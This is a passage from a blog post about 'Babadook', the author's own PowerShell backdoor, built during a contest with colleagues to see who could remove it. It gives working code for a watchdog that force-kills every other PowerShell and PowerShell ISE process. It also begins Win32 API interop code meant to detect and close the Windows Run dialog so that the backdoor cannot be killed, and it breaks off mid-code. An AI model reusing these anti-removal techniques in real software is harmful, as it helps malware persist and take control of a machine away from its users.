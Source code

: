 #### There can be only one

<img src="https://wroot.org/wp/wp-content/uploads/2015/07/original.jpg" alt="" width="350" height="241" class="aligncenter size-full wp-image-54026" srcset="https://wroot.org/wp/wp-content/uploads/2015/07/original.jpg 350w, https://wroot.org/wp/wp-content/uploads/2015/07/original-300x207.jpg 300w" sizes="(max-width: 350px) 100vw, 350px" />

In order to ensure that nobody would try to play smart and open a powershell window and try to use the `Get-Process` and `Stop-Process` to try to kill my backdoor, I&#8217;ve added the functionality to the watchdog to kill all powershell processes which were not his own. Upon start I&#8217;d save my process ID into a variable and use that to check the other powershell processes. 

{{< highlight powershell >}}
Function Kill-PS {
    Stop-Process -processname powershell_ise -Force -ErrorAction SilentlyContinue # Kill powershell_ise.Exe
    # Kill powershell processes which are not me
    $AllPS = [array] $(Get-Process | Where-Object { $_.ProcessName -eq "powershell" -And $_.Id -ne "$MyPID" })
    If ($AllPS.Count -gt 0) {
    	ForEach ($Proc in $AllPS) { Stop-Process -Id $Proc.ID -Force -ErrorAction SilentlyContinue }# end :: foreach
    }# end :: if	
}# end :: Kill-PS
{{< /highlight >}}

Also, no Powershell ISE here!

#### You can&#8217;t Run but I can hide!

At the same time my colleagues were desperately trying to kill Babadook, I was also doing the same to ensure I could cover the holes before they were able to get to it.

I&#8217;ve realized that someone could just invoke the `taskill` command directly from the &#8220;Run&#8221; dialog and that was bad (for me), so I needed a way to prevent that dialog from coming up. As this is a built-in dialog and not a process, I wasn&#8217;t able to take down on the classical way (with `Stop-Process`) so I&#8217;ve appealed to .NET extensions to grab some Windows <acronym title="Application Programming Interface">API</acronym> calls in order to enumerate the foreground window and if the title was what I wanted, kaboom!.

{{< highlight powershell >}}
Add-Type  @" 
    using System;
    using System.Runtime.InteropServices; 
    using System.Text;
         
    public class APIFuncs
    {
        [DllImport("user32.dll", CharSet = CharSet.Auto, SetLastError = true)]
    public static extern int GetWindowText(IntPtr hwnd,StringBuilder lpString, int cch);
        [DllImport("user32.dll", SetLastError=true, CharSet=CharSet.Auto)]
    public static extern IntPtr GetForegroundWindow();
        [DllImport("user32.dll", SetLastError=true, CharSet=CharSet.Auto)]
        public static extern Int32 GetWindowTextLength(IntPtr hWnd);
        [DllImport("user32.dll", SetLastError=true, CharSet=CharSet.Auto)]
        public static extern int SendMessage(int hWnd, uint Msg, int wParam, int lParam);
                    

 [1]: https://msdn.microsoft.com/en-us/library/windows/desktop/aa383607(v=vs.85).aspx
 [2]: https://github.com/jseidl/Babadook